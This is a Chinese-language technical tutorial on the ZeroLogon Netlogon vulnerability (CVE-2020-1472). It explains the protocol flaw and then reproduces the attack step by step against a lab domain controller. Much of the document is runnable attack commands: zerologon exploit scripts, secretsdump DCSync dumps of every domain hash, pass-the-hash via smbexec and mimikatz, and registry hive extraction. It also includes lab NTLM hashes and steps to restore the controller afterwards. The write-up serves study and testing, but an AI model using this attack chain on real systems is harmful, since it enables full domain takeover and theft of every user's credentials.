# CVE-2020-1472 NetLogon 权限提升漏洞

> “ Logon”是 “Log” 和“on”合成的一个词，中间没有空格和间断，它的意思是“登录”。
> 
> NetLogon 是 Windows 操作系统中的一个核心服务，主要用于处理网络登录过程中的认证和安全协议。它负责在计算机和域控制器（Domain Controller, DC）之间建立安全通道，以便执行用户身份验证、计算机身份验证以及其他与域相关的操作。
> 
> 主要功能:
> 
> - 域控制器之间的身份验证：NetLogon 在工作站和域控制器之间建立一个安全通道，用于身份验证。它支持用户、服务以及计算机之间的相互身份验证。
> - 计算机启动时的身份验证：当计算机启动并加入到域时，NetLogon 会帮助计算机向域控制器进行身份验证，以确保计算机能在域中正常工作。
> - 用户登录时的身份验证：当用户尝试登录到域中的计算机时，NetLogon 会将用户的凭据(如用户名和密码)发送到域控制器进行验证。域控制器会通过活动目录(Active Directory, AD)检查这些凭据并返回结果。
> - 活动目录复制：NetLogon 还参与了活动目录的复制进程。域控制器之间的身份验证和目录服务同步（如AD的复制）依赖于NetLogon提供的服务。
> - NTLM（NT LAN Manager）认证支持：虽然 Kerberos 是现代域环境的首选认证协议，但 NetLogon 也支持 NTLM 认证。NTLM 是一种较旧的身份验证协议，在某些情况下仍被使用，尤其是处理遗留系统。
> - Kerberos 票据服务：NetLogon 帮助用户获取 Kerberos 票据，这些票据用于支持安全的、加密的网络会话。
> 
> 相关进程:
> 
> NetLogon 在系统中的服务名称是 Netlogon，它会运行在域控制器和域内的所有成员计算机上，默认启动类型为自动（域控制器上）。在域环境中，NetLogon 进程（netlogon.dll）对计算机身份验证、信任关系的建立和维护至关重要。

## 漏洞背景和描述

在 2020 年 8 月份微软公布的安全公告中，有一个十分紧急的漏洞——CVE-2020-1472 NetLogon 权限提升漏洞。通过该漏洞，**未经身份验证的攻击者只需要能访问到域控的 135 端口即可通过 Netlogon 远程协议连接域控制器并重置域控制器机器账号的哈希**，从而导致攻击者可以利用域控制器的机器账号导出域内所有用户哈希(域控制器的机器账号默认具有 Dcsync 权限，可以使用 Dcsync 导出域内哈希)，进而接管整个域。该漏洞主要是**由于 Netlogon 协议认证的加密模块存在缺陷，导致攻击者可以在没有凭据的情况下通过认证**。通过认证后，调用 Netlogon协议中 RPC 函数 NetrServerPasswordSet2 来重置域控制器机器账号的哈希，从而接管全域！

## 漏洞原理

该漏洞由 Secura 的安全研究员 Tom Tervoort 以及国内安全研究员彭峙酿博士、李雪峰发现。Tom Tervoort 发布了关于该漏洞的详细原理和利用方式的白皮书，并将其命名为 ZeroLogon。下面我们来分析下 Netlogon 运行的流程和造成该漏洞的原因！

### 1.Netlogon 服务

Netlogon 服务为域内的身份验证提供一个安全通道，它被用于执行与域用户和机器身份验证相关的各种任务，最常见的是让用户使用 NTLM 协议登录服务器。默认情况下，Netlogon 服务在域内所有机器后台运行着，该服务的可执行文件路径为` C:\Windows\system32\lsass.exe`。如图所示，是 Netlogon 服务.



### 2.Netlogon 认证流程

Neglogon 客户端和服务端之间通过 `Microsoft Netlogon Remote Protocol(MS-NRPC)协议`来进行通信。MS-NRPC 协议并没有使用与其他 RPC协议相同的解决方案。在进行正式通信之前，客户端和服务端之间需要进行身份认证并协商出一个` Session Key`，该值用于保护双方后续的 RPC 通信流量。

简要的 Netlogon 认证流程如图所示：



①：首先，由客户端启动网络登录会话，客户端调用`NetrServerReqChallenge` 函数给服务端发送随机的 8 字节 `Client Challenge` 值。

②：服务端收到客户端发送的` NetrServerReqChallenge `调用后，服务端也调用 `NetrServerReqChallenge `函数发送随机的 8 字节 `Server Challenge` 值。

③：此时，客户端和服务端均收到了来自对方的 Challenge。然后双方都使用**共享的密钥 secret(客户端机器账号的哈希值)**以及来自双方的 Challenge 通过计算得到 `Session Key=KDF(secret,(Client Challenge+Server Challenge))`。此时，客户端和服务端均拥有了相同的 Client Challenge、Server Challenge、SessionKey。

④：客户端使用 Session Key 作为密钥加密 Client Challenge 得到 ClientCredential 并发送给服务端。服务端收到客户端发来的 Client Credential 后，本地使用 Session Key 作为密钥加密 Client Challenge 计算出 Client Credential。然后比较本地计算出的 Client Credential 和从客户端发送来的 Client Credential是否相同。如果两者相同，则说明客户端拥有正确的凭据以及 Session Key。

⑤：服务端使用 Session Key 作为密钥加密 Server Challenge 得到 Server Credential 并发送给客户端。客户端收到服务端发来的 Server Credential 后，本地使用 Session Key 作为密钥加密 Server Challenge 计算出 Server Credential。然后比较本地计算出的 Server Credential 和从服务端发送来的 Server Credential是否相同。如果两者相同，则说明服务端拥有相同的 Session Key。

⑥：至此，客户端和服务端双方互相认证成功并且拥有相同的 Session Key，此后使用 Session Key 来加密后续的 RPC 通信流量。

### 3.漏洞产生原因

CVE-2020-1472 漏洞（又称为 Neglogon 漏洞）的产生原因主要是由于 Microsoft Netlogon 远程协议（MS-NRPC）**在身份验证过程中缺乏对客户端和域控制器之间通信的强制加密和完整性验证**。

主要原因包括：

1. 身份验证过程的设计缺陷：在身份验证时，攻击者可以利用 Netlogon 协议的某些实现细节，通过发送伪造的身份验证请求来冒充域控制器，进而获得访问权限。
2. 缺少加密：Netlogon 协议在某些情况下未能强制使用加密，导致攻击者能够在网络上进行中间人攻击，劫持和篡改身份验证请求。
3. 非强制的加密算法：漏洞利用了协议中非强制加密算法的缺陷，攻击者可以通过绕过这些机制，执行恶意操作而不被发现。

## 漏洞影响版本

- Windows Server 2008 R2 for x64-based Systems Service Pack1
- Windows Server 2008 R2 for x64-based Systems Service Pack1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Windows Server 2012 R2
- Windows Server 2012 R2 (Server Core installation) 
- Windows Server 2016
- Windows Server 2016 (Server Core installation) 
- Windows Server 2019
- Windows Server 2019 (Server Core installation) 
- Windows Server, version 1903 (Server Core installation)
- Windows Server, version 1909 (Server Core installation)
- Windows Server, version 2004 (Server Core installation)

## 漏洞复现

实验环境如下：

- 域控 ip：10.211.55.4
- 域控主机名：AD01

分别使用 Python 脚本和 mimikatz 对该漏洞进行复现。

### 1. Python 脚本复现

这里我们使用 zerologon_tester.py 和 CVE-2020-1472.py 脚本对 Netlogon权限提升漏洞进行检测和利用。

#### （1）检测是否存在漏洞

首先使用 zerologon_tester.py 脚本执行如下命令检测目标域控是否存在Netlogon 权限提升漏洞。

```
python3 zerologon_tester.py AD01 10.211.55.4
```

如图所示，使用 zerologon_tester.py 脚本检测目标域控是否存在 Netlogon权限提升漏洞，提示` Success! DC can be fully compromised by a Zerologon attack. `即说明目标域控存在 Netlogon 权限提升漏洞。



#### （2）重置域控哈希

确定目标域控存在 Netlogon 权限提升漏洞后，使用 CVE-2020-1472.py 脚本执行如下命令对其进行攻击。

```
#攻击，使域控的机器账号哈希置为空
python3 CVE-2020-1472.py AD01 AD01$ 10.211.55.4
```

如图所示，使用 CVE-2020-1472.py 脚本对域控进行攻击，该脚本会将目标域控的机器账号哈希置为空，可以看到攻击成功！

> 将域控的机器账号哈希置为空可以使攻击者绕过身份验证，因为系统在验证时会失败，导致域控无法识别有效的机器账户。



#### （3）远程连接域控

攻击成功后，此时目标域控的机器账号`AD01$`的密码已经置为空了。由于域控机器账号默认在域内具有 DCSync 的权限。因此，我们可以使用目标域控机器账号`AD01$`远程连接域控，指定哈希为空，使用 secretsdump.py 脚本导出域内任意用户哈希，我们这里导出域管理员 administrator 的哈希。再利用域管理员administrator 的哈希远程连接域控！

```
#使用 AD01$机器账号，哈希为空连接，导出 administrator 用户的哈希
python3 secretsdump.py "xie/AD01$"@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc-user "administrator"

#然后用 administrator 用户的哈希连接域控
python3 smbexec.py xie/administrator@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:33e17aa21ccc6ab0e6ff30eecb918dfb
```

如图所示，可以看到导出域管理员 administrator 的哈希，并成功连接域控AD01。



也可以使用如下命令导出域内所有用户的哈希。

```
#导出所有用户哈希
python3 secretsdump.py "xie/AD01$"@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
```

如图导出域内所有用户哈希。



### 2. mimikatz 复现

新版本的 mimikatz 已经集成了 Netlogon 权限提升漏洞检测和利用模块，我们也可以直接利用 mimikatz 来检测和利用。

#### （1）检测是否存在漏洞

使用 mimikatz 执行如下命令检测目标域控是否存在 Netlogon 权限提升漏洞.

```
mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.211.55.4 /account:AD01$" "exit"
```

如图所示，使用 mimikatz 检测目标域控是否存在 Netlogon 权限提升漏洞，提示 `Authentication: OK -- vulnerable. `即可证明目标域控存在 Netlogon 权限提升漏洞！



#### （2）重置域控哈希

这里重置域控哈希分为两种情况。

• 一种情况是当前执行 mimikatz 的机器在域内。

• 一种情况是当前执行 mimikatz 的机器不在域内。

##### 1）攻击机在域中

如果当前主机在域环境中的话，可以使用如下命令重置域控 AD01 的机器账号哈希，target 参数这里可以直接使用 FQDN，也就是 AD01.xie.com。

```
mimikatz.exe "lsadump::zerologon /target:AD01.xie.com /ntlm /null /account:AD01$ /exploit" "exit"
```

如图所示，使用 mimikatz 重置域控 AD01 的机器账号哈希为 0 成功



##### 2）攻击机不在域中

如果当前主机不在域环境中的话，可以使用如下命令进行重置，target 参数这里需要指定域控的 ip。

```
mimikatz.exe "lsadump::zerologon /target:10.211.55.4 /ntlm /null /account:AD01$ /exploit" "exit"
```

如图所示，使用 mimikatz 重置域控 10.211.55.4 的机器账号哈希为 0 成功。



#### （3）远程连接域控

这里使用 mimikatz 利用 DCSync 导出哈希的过程需要注意，由于/dc 参数后面要跟域名格式的 FQDN。因此如果当前机器不在域内的话，需要将当前机器的DNS 指定为域控，这样才能解析。如果当前机器在域内的话，则不用任何配置，默认即可

使用 mimikatz 执行如下命令，先导出域管理员 administrator 的密码哈希，然后使用域管理员 administrator 的密码哈希远程连接域控！

```
#导出指定 administrator 用户哈希
mimikatz.exe "lsadump::dcsync /csv /domain:xie.com /dc:AD01.xie.com /user:administrator /authuser:AD01$ /authpassword:\"\" /authntlm" "exit"
lsadump::dcsync /domain:xie.com /dc:AD01.xie.com /user:administrator /authuser:AD01$ /authpassword:"" /authntlm

#然后用 administrator 用户的哈希连接域控，这一步需要 privilege::debug 提权
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:10.211.55. 4 /rc4:33e17aa21ccc6ab0e6ff30eecb918dfb" "exit"
```

如图所示，使用 mimikatz 导出域管理员 administrator 的哈希。



如图所示，使用域管理员哈希进行 PTH 哈希传递攻击，可以看到成功访问域控 AD01。



### 3.恢复域控的机器用户哈希

在攻击完成后，我们将域控机器账号的哈希置为空了。此时，域控机器账号在活动目录中的密码和域控本地注册表以及 lsass 进程中的密码不一致，这将导致域控重启后无法开机、脱域等情况！因此，我们得想办法**让域控在活动目录中的密码和在域控本地注册表以及 lsass 进程中的密码一致**！

这里有两种方案：

- 一种方案是获得域控机器账号的原始哈希，然后将其恢复到原始哈希。
- 另一种方案是使用 powershell 命令重置域控在活动目录、本地注册表和 lsass 进程中的哈希，使三者一致。

#### （1）获得域控机器账号原始哈希

获得域控机器账号的原始哈希有如下几种方法：

##### 1）方式一

在目标域控上执行如下三个命令，将注册表中的信息导出成三个文件。

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
```

如图所示，使用 reg 命令将域控注册表中的信息导出成文件。



将刚刚保存的三个文件放到 impacket 的 examples 目录下，使用secretsdump.py 执行如下命令提取出文件里面的 hash。

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

如图所示，使用 secretsdump.py 脚本提取出文件里面的 hash，$MACHINE.ACC 后面的 37945b4d7e794816622f47aa8e3b60b8 就是原来的机器哈希。



##### 2）方式二

使用 mimikatz 的 `sekurlsa::logonpassword` 模块执行如下命令从 lsass.exe进程里面抓取域控机器账号 AD01$的原始哈希

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

如图所示，使用 mimikatz 抓取的域控机器账号 AD01$的原始哈希为37945b4d7e794816622f47aa8e3b60b8。



##### 3）方式三

使用 secretsdump.py 脚本执行如下命令启用`卷影复制服务 volume shadow copy （VSS）`导出域内所有哈希，这其中就包含域内机器账号的哈希。

```
python3 secretsdump.py xie.com/administrator@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:33e17aa21ccc6ab0e6ff30eecb918dfb -use-vss
```

如图所示，使用 secretsdump.py 脚本导出域内所有哈希，可以看到 AD01$机器账号的原始哈希为 37945b4d7e794816622f47aa8e3b60b8。



#### （2）恢复域控原始哈希

使用了上面的方法获得了域控机器账号的原始哈希后，我们可以使用reinstall_original_pw.py 脚本执行如下命令恢复域控机器账号的原始哈希。该脚本在计算密码的时候使用了空密码的哈希去计算 session_key，然后指定机器账号的原始 NTLM 哈希即可还原。

```
#恢复域控哈希
python3 reinstall_original_pw.py AD01 10.211.55.4 37945b4d7e794816622f47aa8e3b60b8
```

恢复成功后，使用 secretsdump.py 执行如下命令导出域控 AD01 的机器账号AD01$的哈希来确认是否恢复完成。

```
python3 secretsdump.py xie.com/administrator@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:33e17aa21ccc6ab0e6ff30eecb918dfb -just-dc-user " AD01$"
```

如图所示，可以看到域控机器账号 AD01 的哈希恢复了。



#### （3）powershell 命令重置哈希

也直接在域控上执行如下 powershell 命令，该命令会重置计算机的机器帐户密码。重置后，活动目录数据库，注册表，lsass 进程里面的密码均一致。但是重置后的密码与之前的原始密码不一致。

```
powershell Reset-ComputerMachinePassword
```